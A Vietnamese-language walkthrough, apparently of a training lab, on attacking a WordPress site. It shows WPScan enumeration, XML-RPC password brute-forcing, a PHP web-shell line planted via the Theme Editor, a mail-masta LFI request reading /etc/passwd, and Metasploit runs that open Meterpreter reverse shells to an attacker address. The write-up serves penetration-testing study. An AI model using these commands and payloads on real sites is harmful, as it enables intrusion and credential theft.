

# Attacking WordPress

Sau khi xác định WordPress, version và plugin, ta có thể khai thác các chức năng có sẵn để tìm đường vào hệ thống.

## 1. Brute-force đăng nhập

WordPress có 2 phương thức brute-force phổ biến:

- `wp-login`: brute-force trực tiếp `/wp-login.php`
- `xmlrpc`: gửi login request thông qua `/xmlrpc.php` → thường nhanh hơn

WPScan:

```bash
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

Ý chính:

- `-U`: username hoặc file username
- `-P`: password hoặc wordlist
- `-t`: số thread
- `--password-attack xmlrpc`: brute-force qua XML-RPC

## 2. Có Admin → Remote Code Execution

Nếu có tài khoản WordPress có quyền quản trị, có thể lợi dụng Theme Editor để sửa trực tiếp PHP.

Vào: ``Appearance → Theme Editor``



Sửa một file PHP của theme, ví dụ `404.php`:

```php
system($_GET[0]);
```

Sau đó có thể gọi:

```bash
curl "http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id"
```

Kết quả: `uid=33(www-data)`

➡️ Từ valid admin credentials → chỉnh PHP → command execution → reverse shell.

Ngoài ra Metasploit có module:

`exploit/unix/webapp/wp_admin_shell_upload`

Module này đăng nhập WordPress bằng tài khoản admin, upload plugin chứa payload rồi tạo Meterpreter session.

```bash
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local
```

```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options 

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting           Required  Description
   ----       ---------------           --------  -----------
   PASSWORD   firebird1                 yes       The WordPress password to authenticate with
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.129.42.195             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                        yes       The target port (TCP)
   SSL        false                     no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                         yes       The base path to the wordpress application
   USERNAME   john                      yes       The WordPress username to authenticate with
   VHOST      blog.inlanefreight.local  no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress
```

exploit

```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] Authenticating with WordPress using doug:jessica1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/CczIptSXlr/wCoUuUPfIO.php...
[*] Sending stage (39264 bytes) to 10.129.42.195
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.42.195:42816) at 2021-09-20 19:43:46 -0400
i[+] Deleted wCoUuUPfIO.php
[+] Deleted CczIptSXlr.php
[+] Deleted ../CczIptSXlr

meterpreter > getuid

Server username: www-data (33)
```

## 3. Khai thác plugin có lỗ hổng

Đây là phần rất quan trọng khi pentest WordPress.

Theo nội dung bài:

```
WordPress Core    ~4%
Plugins           ~89%
Themes            ~7%
```

Do đó cần đặc biệt chú ý plugin version.

Không chỉ kiểm tra plugin đang sử dụng, mà còn phải tìm:

- Plugin cũ
- Plugin không còn được support
- Plugin bị bỏ quên nhưng vẫn nằm trên server
- Plugin có CVE đã biết

Có thể dùng Wayback Machine/waybackurls để tìm phiên bản cũ của website và plugin.

## 4. Ví dụ: mail-masta → LFI

Plugin `mail-masta` có lỗ hổng Local File Inclusion.

Code có: `include($_GET['pl']);`

Nhưng không validate input.

→ Có thể truyền file tùy ý:

```bash
curl -s "http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd"
```

Kết quả trả về nội dung: `/etc/passwd`

## 5. Ví dụ: wpDiscuz 7.0.4 → RCE

`wpDiscuz` cho phép upload ảnh trong phần comment.

Phiên bản 7.0.4 trong lab có lỗi file upload bypass:

```
Image upload
      ↓
Bypass MIME validation
      ↓
Upload PHP file
      ↓
Web shell
      ↓
Remote Code Execution
```

Sau khi upload webshell, có thể gọi:

```bash
curl "http://target/wp-content/uploads/.../shell.php?cmd=id"
```

→ Thực thi command với quyền web server, ví dụ: `uid=33(www-data)`


----------------------------------------------
----------------------------------------------

Chạy scan 

```bash 
──(duongnt185㉿WDUONGNT185CSOC)-[~/Desktop]
└─$ wpscan --url http://blog.inlanefreight.local --enumerate
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://blog.inlanefreight.local/ [10.129.42.195]
[+] Started: Wed Sep  9 10:50:42 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://blog.inlanefreight.local/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://blog.inlanefreight.local/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://blog.inlanefreight.local/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://blog.inlanefreight.local/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.8 identified (Insecure, released on 2021-07-20).
 | Found By: Rss Generator (Passive Detection)
 |  - http://blog.inlanefreight.local/?feed=rss2, <generator>https://wordpress.org/?v=5.8</generator>
 |  - http://blog.inlanefreight.local/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.8</generator>

[+] WordPress theme in use: transport-gravity
 | Location: http://blog.inlanefreight.local/wp-content/themes/transport-gravity/
 | Latest Version: 1.0.1 (up to date)
 | Last Updated: 2020-08-02T00:00:00.000Z
 | Readme: http://blog.inlanefreight.local/wp-content/themes/transport-gravity/readme.txt
 | [!] Directory listing is enabled
 | Style URL: http://blog.inlanefreight.local/wp-content/themes/transport-gravity/style.css
 | Style Name: Transport Gravity
 | Style URI: https://keonthemes.com/downloads/transport-gravity/
 | Description: Transport Gravity is an enhanced child theme of Business Gravity. Transport Gravity is made for tran...
 | Author: Keon Themes
 | Author URI: https://keonthemes.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://blog.inlanefreight.local/wp-content/themes/transport-gravity/style.css, Match: 'Version: 1.0.1'

[+] Enumerating Vulnerable Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] No plugins Found.

[+] Enumerating Vulnerable Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:30 <==============================================================================================================================================================> (652 / 652) 100.00% Time: 00:00:30
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] No themes Found.

[+] Enumerating Timthumbs (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:01:59 <============================================================================================================================================================> (2575 / 2575) 100.00% Time: 00:01:59

[i] No Timthumbs Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:07 <===============================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:07

[i] No Config Backups Found.

[+] Enumerating DB Exports (via Passive and Aggressive Methods)
 Checking DB Exports - Time: 00:00:03 <=====================================================================================================================================================================> (84 / 84) 100.00% Time: 00:00:03

[i] No DB Exports Found.

[+] Enumerating Medias (via Passive and Aggressive Methods) (Permalink setting must be set to "Plain" for those to be detected)
 Brute Forcing Attachment IDs - Time: 00:00:05 <==========================================================================================================================================================> (100 / 100) 100.00% Time: 00:00:05

[i] Medias(s) Identified:

[+] http://blog.inlanefreight.local/?attachment_id=5
 | Found By: Attachment Brute Forcing (Aggressive Detection)

[+] http://blog.inlanefreight.local/?attachment_id=6
 | Found By: Attachment Brute Forcing (Aggressive Detection)

[+] http://blog.inlanefreight.local/?attachment_id=13
 | Found By: Attachment Brute Forcing (Aggressive Detection)

[+] http://blog.inlanefreight.local/?attachment_id=18
 | Found By: Attachment Brute Forcing (Aggressive Detection)

[+] http://blog.inlanefreight.local/?attachment_id=22
 | Found By: Attachment Brute Forcing (Aggressive Detection)

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <================================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] by:
									admin
 | Found By: Author Posts - Display Name (Passive Detection)

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] doug
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Wed Sep  9 10:53:43 2026
[+] Requests Done: 3609
[+] Cached Requests: 11
[+] Data Sent: 1.04 MB
[+] Data Received: 1.15 MB
[+] Memory used: 309.047 MB
[+] Elapsed time: 00:03:01
```

Ta thấy có 2 user: admin và doug 

Brute-force mật khẩu user 

```bash
──(duongnt185㉿WDUONGNT185CSOC)-[~/Desktop]
└─$ sudo wpscan --password-attack xmlrpc -t 20 -U doug -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://blog.inlanefreight.local/ [10.129.200.16]
[+] Started: Wed Sep  9 15:13:58 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://blog.inlanefreight.local/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://blog.inlanefreight.local/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://blog.inlanefreight.local/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://blog.inlanefreight.local/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.8 identified (Insecure, released on 2021-07-20).
 | Found By: Rss Generator (Passive Detection)
 |  - http://blog.inlanefreight.local/?feed=rss2, <generator>https://wordpress.org/?v=5.8</generator>
 |  - http://blog.inlanefreight.local/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.8</generator>

[+] WordPress theme in use: transport-gravity
 | Location: http://blog.inlanefreight.local/wp-content/themes/transport-gravity/
 | Latest Version: 1.0.1 (up to date)
 | Last Updated: 2020-08-02T00:00:00.000Z
 | Readme: http://blog.inlanefreight.local/wp-content/themes/transport-gravity/readme.txt
 | [!] Directory listing is enabled
 | Style URL: http://blog.inlanefreight.local/wp-content/themes/transport-gravity/style.css
 | Style Name: Transport Gravity
 | Style URI: https://keonthemes.com/downloads/transport-gravity/
 | Description: Transport Gravity is an enhanced child theme of Business Gravity. Transport Gravity is made for tran...
 | Author: Keon Themes
 | Author URI: https://keonthemes.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://blog.inlanefreight.local/wp-content/themes/transport-gravity/style.css, Match: 'Version: 1.0.1'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] contact-form-7
 | Location: http://blog.inlanefreight.local/wp-content/plugins/contact-form-7/
 | Last Updated: 2026-08-17T04:10:00.000Z
 | [!] The version is out of date, the latest version is 6.1.7
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.4.2 (90% confidence)
 | Found By: Query Parameter (Passive Detection)
 |  - http://blog.inlanefreight.local/wp-content/plugins/contact-form-7/includes/css/styles.css?ver=5.4.2
 | Confirmed By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blog.inlanefreight.local/wp-content/plugins/contact-form-7/readme.txt

[+] mail-masta
 | Location: http://blog.inlanefreight.local/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blog.inlanefreight.local/wp-content/plugins/mail-masta/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:05 <===============================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:05

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - doug / jessica1                                                                                                                                                                                                                   
Trying doug / cheyenne Time: 00:00:24 <                                                                                                                                                               > (660 / 14345052)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: doug, Password: jessica1

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Wed Sep  9 15:14:41 2026
[+] Requests Done: 834
[+] Cached Requests: 6
[+] Data Sent: 403.43 KB
[+] Data Received: 968.264 KB
[+] Memory used: 290.953 MB
[+] Elapsed time: 00:00:42
```

Ta được pass `doug:jessica1` 

Tiếp theo vì mail-masta có LFI nên đọc /etc/passwd ta sẽ có flag 3 


```bash
┌──(duongnt185㉿WDUONGNT185CSOC)-[~/Desktop]
└─$ curl -s "http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false
webadmin:x:1001:1001::/home/webadmin:/bin/bash
mrb3n:x:1002:1002::/home/mrb3n:/bin/sh
```

Để RCE ta exploit `wpDiscuz`

Ta có thể dùng file execute ở exploit database hoặc msf 

```bash
msf exploit(unix/webapp/wp_admin_shell_upload) > search wpDiscuz

Matching Modules
================

   #  Name                                                         Disclosure Date  Rank       Check  Description
   -  ----                                                         ---------------  ----       -----  -----------
   0  exploit/unix/webapp/wp_wpdiscuz_unauthenticated_file_upload  2020-02-21       excellent  Yes    WordPress wpDiscuz Unauthenticated File Upload Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/wp_wpdiscuz_unauthenticated_file_upload

msf exploit(unix/webapp/wp_admin_shell_upload) > use 0
[*] Using configured payload php/meterpreter/reverse_tcp
msf exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > show options

Module options (exploit/unix/webapp/wp_wpdiscuz_unauthenticated_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BLOGPATH                    yes       Link to the post [/index.php/2020/12/12/post1]
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: socks5, http, socks5h, sapni, socks4
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   wpDiscuz < 7.0.5


View the full module info with the info, or info -d command.

msf exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > set BLOGPATH /?p=1
BLOGPATH => /?p=1
msf exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > set rhost 10.129.200.16
rhost => 10.129.200.16
msf exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > set VHOST blog.inlanefreight.local
VHOST => blog.inlanefreight.local
msf exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > set lhost 10.10.14.51
lhost => 10.10.14.51
msf exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > exploit
[*] Started reverse TCP handler on 10.10.14.51:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Payload uploaded as HNMaJZYtX.php
[*] Calling payload...
[*] Sending stage (42137 bytes) to 10.129.200.16
[*] Meterpreter session 1 opened (10.10.14.51:4444 -> 10.129.200.16:33758) at 2026-09-09 15:29:46 +0700
[!] This exploit may require manual cleanup of 'HNMaJZYtX.php' on the target
meterpreter > getuid
Server username: www-data
meterpreter > shell
Process 2231 created.
Channel 0 created.
id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ls 
HNMaJZYtX-1788942582.2303.php
pwd 
/var/www/blog.inlanefreight.local/wp-content/uploads/2026/09
ls /var/www/blog.inlanefreight.local/
flag_d8e8fca2dc0f896fd7cb4cb0031ba249.txt
index.php
license.txt
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
cat /var/www/blog.inlanefreight.local/flag_d8e8fca2dc0f896fd7cb4cb0031ba249.txt
```

> nên đăng nhập 1 lần trên browser trước khi exploit, vì có thể nó hỏi email có đúng ko, khiến cho exploit gặp lỗi báo là authen ko đúng 


